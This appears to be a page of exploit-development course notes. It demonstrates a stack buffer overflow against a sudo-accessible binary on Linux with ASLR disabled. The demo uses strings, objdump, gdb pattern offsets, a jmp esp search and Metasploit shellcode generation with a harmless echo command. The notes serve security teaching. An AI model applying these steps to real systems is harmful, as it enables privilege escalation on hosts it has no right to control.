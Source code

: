 ```
You have to consider that during compilation from C Source Code to Machine
Code, it will likely be different from system to system. There are types and
versions of compilers, compiler optimization settings, and processor features
that can cause the compiler to change the code to fit the specifications of that
system and what features are requested.
```
**DEMO: Buffer Overflow using gdb and env**

```
IMPORTANT Ensure your environment is prepped for exploit development by installing
gcc, libc6-dev-i386, and metasploit for shellcode generation:
```
**Situation** :

An unpriveleged user is on a Lnux host. ASLR is disabled, GDB is installed, and the user has sudo
access to one binary on the system: /demo/func.

```
md5sum func > func_hash.txt  
file func  
- ELF 32-bit  
- Intel core  
- with icons/symbols  

strings func  

objdump -s -j .rodata func  

readelf -s func  

nano exploit.py  
./func <<< $(python exploit.py)  

create psuedo-random string: (Wiremask)[https://wiremask.eu/tools/buffer-overflow-pattern-generator/]

gdb-pedo
- file func
- run
- <enter string>
- pattern create 100
- run
- pattern offset 'AHAA'
- <overrode buffer and base pointer>

env - gdb
- show env
- unset env
- file func
- run
- <enter string>
- i r # shows registers
- info proc map
- find /b <start addr after heap>, <end addr before stack>, 0xff, 0xe4


msf
- use payload /linux/x86/exec
- show options
- set CMD 'echo Youre owned >> /tmp/pwned.txt'
- generate -b "\x00, \x0d, \x0a, \x20" -f python

<update exploit.py>
sudo ./func <<< $(python exploit.py)
```
